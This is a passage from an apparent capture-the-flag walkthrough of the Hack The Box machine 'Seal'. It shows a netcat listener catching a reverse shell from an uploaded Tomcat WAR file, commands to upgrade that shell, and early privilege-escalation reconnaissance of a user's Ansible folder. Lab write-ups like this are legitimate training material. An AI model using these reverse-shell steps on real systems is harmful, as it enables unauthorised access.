 ## Reverse Shell

Start a netcat listener, then click on the link on the applications list to the WAR file I've just uploaded. Switching back we see we have our reverse shell connected:

```sh
┌──(root💀kali)-[~/htb/seal]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.251] from (UNKNOWN) [10.10.10.250] 33470
```

First job is to upgrade our terminal to something more useable:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@seal:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/seal]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
tomcat@seal:/var/lib/tomcat9$ export TERM=xterm
tomcat@seal:/var/lib/tomcat9$ stty rows 52 cols 237
```

## Ansible

That's better. So a quick look at users and we see only one called Luis with a few interesting files in their home folder:

```text
tomcat@seal:/var/lib/tomcat9$ ls -lsa /home/luis/
    4 drwxrwxr-x 3 luis luis     4096 May  7 06:00 .ansible
    4 drwx------ 2 luis luis     4096 May  7 06:10 .ssh
    4 -r-------- 1 luis luis       33 Oct  9 17:27 user.txt
```

We have the user flag, but that's for later as we have no permissions yet. We also see a .ssh folder, so we could be looking at public/private keys possibly hidden. For now I'm more interested in the .ansible folder. [Ansible](https://www.ansible.com/) is an automation platform, so it's reasonable to asusme this will be scripting of some sort.

Let's look inside:

```text
tomcat@seal:/var/lib/tomcat9$ ls -lsa /home/luis/.ansible/
total 12
4 drwxrwxr-x 3 luis luis 4096 May  7 06:00 .
4 drwxr-xr-x 9 luis luis 4096 Oct 10 09:20 ..
4 drwx------ 2 luis luis 4096 Oct 10 17:04 tmp
```

We see just one folder called tmp which we can't access, but the time stands out. It's within a few minutes of the actual time, and if I wait and look again I see it has changed. So there must be a cronjob or similar running. We can look at processes first to see if there's anything obvious:


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'